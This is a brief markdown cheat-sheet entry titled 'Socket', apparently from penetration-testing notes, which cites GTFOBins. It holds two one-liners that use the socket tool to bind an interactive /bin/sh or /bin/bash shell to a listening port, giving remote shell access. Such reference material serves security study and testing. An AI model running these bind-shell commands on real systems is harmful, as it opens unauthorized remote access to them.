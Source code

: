 # Socket

## 01 - One-liners

```
$ socket -svp '/bin/sh -i' <PORT>

$ socket -svp '/bin/bash -i' <PORT>
```

---
## References

- [GTFOBins: socket](https://gtfobins.github.io/gtfobins/socket/)